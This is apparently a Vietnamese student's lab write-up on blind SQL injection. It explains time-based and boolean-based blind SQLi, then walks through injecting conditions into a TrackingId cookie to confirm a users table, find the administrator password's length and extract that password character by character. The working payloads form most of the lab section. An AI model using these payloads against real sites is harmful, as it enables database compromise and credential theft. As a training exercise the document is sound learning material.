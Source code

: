 Người thực hiện: Lê Trần Văn Chương.
Deadline: 31/03 - 02/04/2022.
Mục lục:
- Lỗ hổng SQL Injection Time Based và Boolean Based là gì?
- Lab Blind SQLi
- Code PoC

## Lỗ hổng SQL Injection Time Based và Boolean Based là gì?
- Time-based SQLi đây là 1 kỹ thuật tấn công chậm, mục đích làm trì hoãn việc truy vấn dữ liệu từ client. Trong khoảng thời gian bị trì hoãn đó kẻ tấn công có thể thực hiện các câu truy vấn khác và sau khi có phản hồi thì kẻ tấn công của có thể biết được loại DB mà máy chủ đang dụng.
- Boolean based SQLi cũng là kỹ thuật tấn công chậm, tùy thuộc vào kết quả boolean (True or False), nội dung trong phản hồi HTTP sẽ thay đổi hoặc giữ nguyên. Kết quả cho phép kẻ tấn công đánh giá liệu trọng tải được sử dụng trả về đúng hay sai.
=> Cả 2 loại tấn công trên được gọi chung là Blind SQLi.

## Lab Blind SQLi?
- Lab sử dụng tracking cookie để phân tích và truy vấn SQL. 
- Truy vấn trả về thông báo 'Welcome back!' hoặc không trả về thông báo. (True or False)

1. Ta dùng extension EditThisCookie của chrome để có thể bắt được TrackingId và TrackingId của lab là 'SHgOlSPYCX3mPVyc' của Lab.

2. Ta thêm truy vấn logic và sao TrackingId để nắm bắt cơ chế của nó.
    TrackingId' and 1=1-- => Hiện thông báo 'Welcome back!'
    TrackingId' and 1=0-- => Không hiện thông báo.

3. Ta thử thêm truy vấn select để xem thử có bảng users, username là administrator và password như lab đã cho không.
    TrackingId' and(select 'x' from users LIMIT 1)='x'-- => Hiện thông báo 'Welcome back!'. Vậy là có bảng users.
    Sử dụng Burp suite để payload username bằng cách sử dụng hàm substring để lấy từ ký tự trong username.
    TrackingId' and(select substring(username,1,1) from users LIMIT 1 )='a'-- => Hiện thông báo 'Welcome back!'. Vậy là có username là administrator.
    
    Vì không biết password có đồ dài bao nhiêu nên ta sử dụng LENGHT để có thể kiểm tra độ dài của password
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>1)='administrator'-- => Hiện thông báo 'Welcome back!'. Vậy chứng tỏ password có độ dài > 1 ký tự.
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>25)='administrator'-- => Không hiện thông báo. Vậy chứng tỏ password có độ dài < 25 ký tự.
    Tiếp tục test
    
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>20)='administrator'-- => Không hiện thông báo. Vậy chứng tỏ password có độ dài < 20 ký tự.
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>19)='administrator'-- => Hiện thông báo 'Welcome back!'. Vậy chứng tỏ password có độ dài > 19 ký tự.
    TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)=20)='administrator'-- => Hiện thông báo 'Welcome back!'. Vậy chứng tỏ password có độ dài 20 ký tự.

4. Bây giờ, chúng ta đã biết username là administrator và password có đồ dài từ 20 ký tự. Sử dụng Burp suite để payload password của administrator bằng cách sử dụng hàm substring để lấy từ ký tự trong password.
    TrackingId' and(select substring(password,1,1) from users where username = 'administrator' )='a'--
    Sau khi payload thì ta có được 1 chuỗi password như sau: vxeddqsvrm6gfo75xs7h